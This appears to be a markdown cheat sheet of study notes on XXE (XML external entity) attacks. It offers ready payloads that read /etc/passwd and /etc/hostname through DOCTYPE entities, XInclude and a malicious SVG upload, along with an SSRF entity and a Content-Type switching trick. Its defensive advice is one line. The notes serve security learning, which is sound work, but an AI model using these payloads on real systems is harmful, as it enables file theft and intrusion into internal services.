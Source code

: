 
# XXE:
Web security vulnerability that allows an attacker to interfere with an application's processing of XML data. 
It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.

There are various types of XXE attacks:

-Exploiting XXE to retrieve files, where an external entity is defined containing the contents of a file, and returned in the application's response.

-Exploiting XXE to perform SSRF attacks, where an external entity is defined based on a URL to a back-end system.

-Exploiting blind XXE exfiltrate data out-of-band, where sensitive data is transmitted from the application server to a system that the attacker controls.

-Exploiting blind XXE to retrieve data via error messages, where the attacker can trigger a parsing error message containing sensitive data.

PS. SYSTEM is used to create custom entities

# PREVENT XXE:

Disable thos feature that you don't need in your XML library

# General Payload to acces filesystem

Suppose a shopping application checks for the stock level of a product by submitting the following XML to the server:
```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```
The application performs no particular defenses against XXE attacks, so you can exploit the XXE vulnerability to retrieve the /etc/passwd file by submitting the following XXE payload:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>   (Note that you use file://)
<stockCheck><productId>&xxe;</productId></stockCheck>
```
# Exploiting XXE to perform SSRF attacks

If you can use the defined entity within a data value that is returned in the application's response, then you will be able to view the response from the URL within the application's response, and so gain two-way interaction with the back-end system. If not, then you will only be able to perform blind SSRF attacks. 
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```
# BLIND SSRF XXE(XInclude)

Some applications receive client-submitted data, embed it on the server-side into an XML document, and then parse the document. An example of this occurs when client-submitted data is placed into a back-end SOAP request, which is then processed by the backend SOAP service.

In this situation, you cannot carry out a classic XXE attack, because you don't control the entire XML document and so cannot define or modify a DOCTYPE element. However, you might be able to use XInclude instead. XInclude is a part of the XML specification that allows an XML document to be built from sub-documents. You can place an XInclude attack within any data value in an XML document, so the attack can be performed in situations where you only control a single item of data that is placed into a server-side XML document.

To perform an XInclude attack, you need to reference the XInclude namespace and provide the path to the file that you wish to include. For example:
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```
# XXE attacks via file upload

An application might allow users to upload images, and process or validate these on the server after they are uploaded. Even if the application expects to receive a format 
like PNG or JPEG, the image processing library that is being used might support SVG images. Since the SVG format uses XML, an attacker can submit a malicious SVG image 
and so reach hidden attack surface for XXE vulnerabilities. 

Payload:
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
# Test XXE via Content-Type
Most POST requests use a default content type that is generated by HTML forms, such as `application/x-www-form-urlencoded`. Some web sites expect to receive requests in this format but will tolerate other content types, including XML.

For example, if a normal request contains the following:
```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```
Then you might be able submit the following request, with the same result:
```
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```
